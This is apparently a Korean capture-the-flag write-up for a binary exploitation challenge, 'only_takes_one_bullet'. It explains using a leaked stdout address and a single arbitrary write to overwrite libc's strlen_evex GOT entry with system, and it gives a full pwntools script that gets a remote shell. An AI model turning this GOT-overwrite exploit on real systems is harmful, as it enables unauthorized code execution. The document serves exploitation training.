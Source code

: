# 문제이름
only_takes_one_bullet
# Usage
- 공란

# Concept
- 문제 컨셉 BOF, UAF, SSRF, XSS, 행렬 리버싱 등
got overwirte

# Writeup
코드를 보면 libc base를 계산할 수 있도록 stdout 주소를 출력해주고 AAW primitive를 한번 트리거할 수 있을거처럼 보인다 이 점을 이용해 libc 파일의 GOT 주소를 구하고 이를 AAW primitive를 이용하여 변조할 수 있다
또한 마지막에 puts 함수가 사용자가 입력한 9바이트의 입력값을 첫번째 인자로 하여 출력 하므로 puts 함수의 내부 함수의 GOT를 system으로 변조하면 사용자의 입력을 실행시킬수있을것이다
![pwn](image.png)
Istrlen_evex 함수의 GOT가 사용자의 입력을 첫번째 인자로 하여 puts 함수 내부에서 호출되는 것을 볼 수 있다
그러므로 strlen_evex GOT를 system 함수 주소로 
사용자 입력을 /bin/sh로 하여 puts 함수를 호출하면 쉘을 실행시키는 문제이다
익스코드를 짜보자
```python
from pwn import *

p = remote("finder16.kr", 8888)
e = ELF("./prob")
libc = e.libc
context.terminal = ['tmux', 'split', '-h']
context.log_level = 'debug'


p.recvuntil(b"addr : ")
lb = int(p.recvline()[:-1], 16) - libc.sym["_IO_2_1_stdout_"]
libc_got = lb + 0x21a098
system = lb + libc.sym["system"]
p.recvuntil(b"bullet\r\n")
p.sendline(hex(system)[2:])
p.recvuntil(b"target\r\n")
p.sendline(hex(libc_got))

p.interactive()

```